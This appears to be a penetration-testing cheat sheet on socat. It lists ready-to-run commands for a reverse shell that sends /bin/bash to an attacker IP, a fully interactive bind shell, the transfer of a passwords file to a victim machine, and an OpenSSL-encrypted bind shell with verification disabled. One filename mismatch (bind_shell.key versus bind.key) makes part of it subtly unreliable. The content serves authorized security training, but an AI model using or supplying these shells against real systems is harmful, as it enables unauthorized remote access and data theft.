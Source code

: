 ## Socat

* Socat is not well know but is super useful if able to launch
* Once launched socat can provide a fully interactive shell just like SSH

### socat reverse shell

```bash

#attacker
socat -d -d TCP4-LISTEN:443 STDOUT

#victim
socat TCP4:10.xxx.xxx.xxx:443 EXEC:/bin/bash
```

### Fully interactive bind shell

```bash
#On Victim with IP address 10.99.66.88 initiate a listener:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP4-LISTEN:3333,reuseaddr,fork,ignoreeof

#from attacker
socat file:`tty`,raw,echo=0 tcp:10.99.66.88:3333
```

### Socat file transfers

```bash

# sender: attacker on linux

sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt

# receiver: victim on windows
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create

```

### Encrypted connection

1. Create self-signed cert in openssl

```bash
- req: initiate a new certificate signing request
- newkey: generate a new private key
- rsa:2048: use RSA encryption with a 2,048-bit key length.
- nodes: store the private key without passphrase protection
- keyout: save the key to a file
- x509: output a self-signed certificate instead of a certificate request
- days: set validity period in days
- out: save the certificate to a file

openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind.crt

#converting to .pem
cat bind.key bind.crt > bind.pem

# victim

sudo socat OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork EXEC:/bin/bash

# verify=0 to disable certificate verification

# attacker connects
socat - OPENSSL:10.xxx.xxx.xxx:443,verify=0
```